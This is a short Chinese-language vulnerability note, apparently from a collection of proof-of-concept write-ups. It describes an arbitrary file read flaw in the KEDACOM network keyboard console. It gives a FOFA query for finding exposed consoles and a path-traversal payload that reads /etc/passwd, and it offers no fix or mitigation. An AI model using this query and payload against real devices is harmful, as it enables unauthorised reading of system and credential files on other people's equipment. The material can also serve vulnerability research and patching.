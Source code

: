 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## FOFA

```
"网络键盘控制台"
```

## 漏洞复现

登录页面

![image-20220525145610413](./images/202205251456491.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251456381.png)